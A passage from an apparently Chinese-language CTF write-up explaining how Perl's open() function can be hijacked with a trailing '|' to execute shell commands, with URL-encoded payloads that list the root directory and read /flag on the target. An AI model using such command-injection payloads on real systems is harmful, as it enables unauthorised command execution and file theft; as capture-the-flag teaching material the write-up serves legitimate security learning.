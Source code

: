 
**2.“黑客”的方式：**`RCE`

Perl 中的 `open()` 函数同样可以用于执行代码，因为它之前被用来打开**管道**（pipes），我们可以使用 `|` 作为分隔符，因为 Perl 识别到 `|` 表示 `open()` 正在打开一个管道。 攻击者可以劫持 `open()` 调用，通过添加 `|` 来执行命令。



Payload:

```sh
# 空格 %20 urlenode传输
# ${IFS} Internal Field Seprator 内部域分隔符
/bin/bash%20-c%20ls${IFS}/|
/bin/bash%20-c%20cat${IFS}/flag|
```

![](/assets/images/move/20190916175607.png)


## 0X0B ics-07

XCTF 4th-CyberEarth 工控云管理系统项目管理页面解析漏洞
